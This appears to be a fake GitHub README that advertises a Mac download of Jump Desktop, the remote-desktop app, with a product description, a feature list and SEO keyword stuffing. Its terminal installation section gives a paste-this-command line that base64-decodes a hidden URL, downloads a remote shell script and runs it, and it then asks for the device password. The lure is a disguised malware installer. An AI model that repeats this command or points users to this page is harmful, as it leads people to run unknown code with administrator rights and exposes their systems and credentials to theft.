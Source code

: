 # Jump Desktop Mac Download

![Jump Desktop Icon](https://jumpdesktop.com/images/icon-2-fs8.png)

---

# ⬇️ Download Jump Desktop for Mac

[![⬇️ Download Now](https://img.shields.io/badge/Jump%20%20Desktop-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/jumpdesktop)

# 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0801-1.gif](https://i.postimg.cc/13YxsdYG/0801-1.gif)](https://postimg.cc/DSspcxh0)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-2.gif](https://i.postimg.cc/4x1CqdpS/0723-2.gif)](https://postimg.cc/Bjtw1JYT)

---

## 💡 What is Jump Desktop for Mac?

**Jump Desktop** is a powerful and secure remote desktop application for macOS, enabling you to access your computers from anywhere. With support for **RDP**, **VNC**, and the ultra-fast proprietary **Fluid Remote Desktop protocol**, Jump Desktop ensures smooth, encrypted remote connections with minimal latency — even over slow connections.

Jump Desktop for Mac is ideal for IT professionals, teams working remotely, or individuals who need to access their office or home computers while traveling. Its intuitive interface allows for easy setup with **Jump Desktop Connect**, a companion app that simplifies secure, firewall-friendly remote access without requiring technical configuration.

Whether you're accessing a Windows, macOS, or Linux machine, Jump Desktop supports seamless keyboard and mouse input, clipboard syncing, multi-monitor support, and more. Fluid protocol adds GPU-accelerated performance, low-latency input, and beautiful visuals optimized for Retina displays.

Jump Desktop scales across organizations — from single users to enterprise environments — offering collaboration tools like shared sessions, remote screen sharing, and team-based permissions.

---

## ✨ Key Features

- ⚡ **Fluid, RDP & VNC protocol support**  
- 🔐 **End-to-end encryption** and secure tunneling  
- 🧩 **Jump Desktop Connect**: Simple firewall-friendly remote access  
- 💻 **Remote access to Mac, Windows, and Linux systems**  
- 🖥 **Multi-monitor support**  
- 📋 Clipboard syncing and drag-and-drop file transfer  
- 👥 **Team collaboration tools** and shared sessions  
- 🧠 AI-based latency reduction in Fluid protocol  
- 🖱 Fully optimized for macOS gestures and Retina display

---

![Jump Desktop Screenshot](https://docs.oakhost.net/assets/images/jd_connectbrowser-4bf93c856493688cc21cf6c1ef3e1232.png)

---

## 💻 System Requirements

- **macOS:** 10.13 High Sierra or later  
- **CPU:** Intel or Apple Silicon (M1/M2/M3)  
- **RAM:** Minimum 4 GB  
- **Network:** Internet access required for Jump Desktop Connect  
- **Permissions:** Full Disk Access and Screen Recording access for remote control

---

## 🔑 SEO Keywords

jump desktop, jump desktop connect, jump desktop mac, jump desktop download, jump desktop mac download,
jump remote desktop, jump desktop pricing, download jump desktop connect, jump desktop app, jump desktop client,
jump desktop connect download, jump desktop free, jump desktop free download, jump desktop mac free, jump rdp,
jump remote access, jump connect desktop, jump desktop macos, jump desktop remote access, jump to desktop mac,
jump vnc, jump desktop mac free download
